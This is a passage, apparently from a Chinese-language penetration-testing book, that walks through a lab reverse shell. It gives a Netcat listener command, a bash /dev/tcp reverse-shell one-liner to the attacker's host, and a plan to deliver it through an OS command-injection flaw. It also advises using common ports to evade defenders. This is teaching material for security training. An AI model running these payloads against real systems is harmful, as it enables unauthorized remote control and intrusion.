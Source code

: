4.  执行负载：负载在目标服务器上执行。

5.  请求反向连接：负载尝试连接到攻击者的机器，充当客户端。

6.  接受 Shell 连接：监听器接收传入的连接，并通过网络与目标机器建立双向通信通道。

7.  执行命令并获取服务器控制：反向 Shell 连接建立后，攻击者获得对被攻陷目标系统的控制，可以远程执行 Shell 命令。

在下一节中，我们将看到这些步骤的实际操作。

## 执行连接

让我们使用 bash 在 Kali 攻击者机器和目标 *p-web-02* 网站应用服务器（172.16.10.12）之间建立反向 shell 连接。

### 设置 Netcat 监听器

首先，我们必须使用 Netcat 在 Kali 机器上设置一个 shell 监听器。在一个全新的终端窗口中执行以下命令：

```
$ **nc -l -p 1337 -vv**
```

-l 选项指示 Netcat 监听传入连接。-p 1337 选项指定监听的端口号，-vv 选项启用详细模式，为监控和调试提供更详细的输出。

> 注意

*在实际场景中，选择一个与环境融合的端口，使其更难被发现。例如，端口 1337 上的外发连接可能会引发警报，而蓝队分析员可能会忽视如 80 或 443 等常用端口上的流量，这些端口通常用于 HTTP。*

当命令执行时，Netcat 应该开始在指定的端口上监听传入连接。

### 创建有效载荷

接下来，我们将通过使用 列表 7-1 中的单行 bash 来创建一个交互式反向 shell 有效载荷。我们将在下一步将此行作为用户输入提交给目标应用程序。

```
bash -c 'bash -i >& /dev/tcp/172.16.10.1/1337 0>&1'
```

列表 7-1：反向 shell 有效载荷

-i 选项使 bash shell 变得交互式，允许它接收输入并生成输出。*/dev/tcp* 路径是 Linux 中一个特殊的 *伪设备文件*，它提供对 TCP 套接字的访问。类似的文件 * /dev/udp* 也存在，提供对 UDP 的访问。我们在文件路径中添加 Kali 机器的 IP 地址以及 Kali shell 正在等待连接的端口：*/dev/tcp/172.16.10.1/1337*。

>& 语法将标准输出（stdout）和标准错误（stderr）流合并为一个流。通过合并这些流，我们确保反向 shell 有效载荷生成的常规命令输出和任何错误信息都会被重定向到我们的监听器。

你可能已经注意到，我们使用 bash -c 将整个有效载荷包裹在单引号中。这种特殊的包裹方式使我们能够明确调用一个新的 bash shell 实例，同时指定一个命令字符串，通过 -c 选项来执行。它还确保随后执行的命令将使用 bash 来执行，而不管目标系统上设置的默认 shell 是什么。你甚至可以指定 bash shell 的完整可执行路径（使用 /bin/bash -c）来进一步确保有效载荷正确执行。

### 传递和初始化有效载荷

为了传递我们创建的单行反向 shell 有效载荷，我们将利用我们在 第六章 中识别的 *p-web-02*（172.16.10.12）中的操作系统命令注入漏洞。请注意，图 7-2 包括了完整的反向 shell 有效载荷，以及用于利用该漏洞的管道元字符 |。

![](img/pg147.jpg)
